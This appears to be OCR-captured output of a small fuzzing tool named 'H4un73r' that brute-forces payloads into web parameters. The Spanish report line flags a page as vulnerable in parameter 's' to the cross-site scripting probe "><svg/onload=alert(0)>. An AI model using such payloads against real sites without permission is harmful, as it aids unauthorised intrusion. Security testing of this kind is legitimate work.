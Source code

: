 # v0.1


******************************************************************************************************************************
* H4un73r.                                                                                                                                                                                                              *
* Force Brute Payloads in parameters.                                                                                                                                                                                   *
******************************************************************************************************************************
******************************************************************************************************************************
*                                                                                                                                                                                                                       
* La pagina web(200) es vulnerable en el parametro: s="><svg/onload=alert(0)>                                                                                                                             *                                                                                                                                              
******************************************************************************************************************************                                    
